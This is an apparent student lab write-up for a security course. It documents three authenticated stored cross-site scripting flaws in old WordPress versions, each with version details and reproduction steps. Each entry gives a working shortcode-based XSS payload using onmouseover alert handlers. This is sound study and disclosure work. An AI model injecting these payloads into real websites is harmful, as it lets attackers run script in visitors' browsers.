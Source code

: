 # CodepathWeek7
Summary:Authenticated Stored Cross-Site Scripting (XSS)

    Vulnerability types: XSS
    Tested in version: 4.1
    Fixed in version: 4.2.3
<a href="https://imgflip.com/gif/2lwcgi"><img src="https://i.imgflip.com/2lwcgi.gif" title="made at imgflip.com"/></a>

Steps to recreate:
1. Gain access to an account 
2. Either create a new page/post or modify an existing one.
3. Use the HTML editor to insert code similar to the following and post:

<a href="[caption code=">]</a><a title=" <Event-attribute-with-JS-code-here>  ">link</a>
For my example the code is:

<a href="[caption code=">]</a><a title=" onmouseover=alert('XSS!')  ">link</a>



Summary:Authenticated Shortcode Tags Cross-Site Scripting (XSS)

    Vulnerability types: XSS
    Tested in version: 4.0
    Fixed in version: 4.3.1

<a href="https://imgflip.com/gif/2lwct8"><img src="https://i.imgflip.com/2lwct8.gif" title="made at imgflip.com"/></a>

Steps to recreate:
1. Gain access to an account 
2. Either create a new page/post or modify an existing one.
3. Use the HTML editor to insert code similar to the following and post:

If an attacker puts in the following:

[caption width="1" caption='<a href="' ">]</a><a href=" onmouseover='alert("XSS!")' ">Click me!</a>

WP processes this to become:

<figcaption class="wp-caption-text"><a href="</figcaption></figure></a><a href=" onmouseover='alert("XSS!")' ">Click me</a>


Summary:Authenticated Stored Cross-Site Scripting (XSS) in YouTube URL Embeds

    Vulnerability types: XSS
    Tested in version: 4.0
    Fixed in version: 4.7.3
 <a href="https://imgflip.com/gif/2lwd5d"><img src="https://i.imgflip.com/2lwd5d.gif" title="made at imgflip.com"/></a>

Steps to recreate:
1. Gain access to an account 
2. Either create a new page/post or modify an existing one.
3. Use the HTML editor to insert code similar to the following and post:

 [embed src='https://www.youtube.com/embed/12345\x3csvg <Event-attribute-with-JS-code-here>\x3e'][/embed]

which WP processes to:

<p>https://youtube.com/watch?v=12345<svg <Event-attribute-with-JS-code-here>></p>


